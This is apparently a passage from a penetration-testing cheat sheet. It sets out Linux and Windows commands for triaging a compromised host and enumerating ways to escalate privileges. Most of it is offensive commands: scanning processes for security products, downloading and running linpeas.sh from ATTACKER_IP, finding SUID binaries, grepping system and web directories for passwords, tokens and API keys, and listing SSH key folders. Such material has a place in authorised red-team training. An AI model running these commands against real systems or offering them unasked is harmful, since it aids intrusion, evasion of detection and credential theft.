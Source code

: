### 2) Quick host triage

Linux:

```bash
id && whoami && hostname -f
uname -a; cat /etc/os-release
sudo -n -l 2>/dev/null || echo "No passwordless sudo"
echo $SHELL; echo $PATH; env | sort
ip a; ip r; ss -tulpn
arp -a; cat /etc/resolv.conf
last -n 3 2>/dev/null || true
ls -la /home; getent passwd | cut -d: -f1,3,6 | column -s: -t
ps aux | grep -Ei 'defender|edr|crowd|carbon|sentinel|sysmon' | grep -v grep
systemctl list-timers --all 2>/dev/null | head
crontab -l 2>/dev/null; ls -lah /etc/cron*; cat /etc/crontab 2>/dev/null
```

Windows (cmd + PowerShell mix):

```cmd
whoami /all
hostname & ver
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
ipconfig /all
route print
arp -a
netstat -ano
query user
net users
net localgroup administrators
wmic qfe get Caption,Description,HotFixID,InstalledOn
tasklist /v | findstr /i "defender crowdstrike carbon black sentinel cylance"
```

### 3) Privilege escalation enumeration

Linux:

```bash
# Automated
curl -sS http://ATTACKER_IP:8000/linpeas.sh -o /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh | tee /tmp/linpeas.out

# Manual hotspots
sudo -l
find / -perm -4000 -type f 2>/dev/null
getcap -r / 2>/dev/null
ls -lah /etc/cron*; cat /etc/crontab 2>/dev/null
find / -type f -writable -maxdepth 3 2>/dev/null | head
grep -RniE "pass|secret|token|api[_-]?key" /etc /var/www /home 2>/dev/null | head
ls -la ~/.ssh; ls -la /root/.ssh 2>/dev/null
```
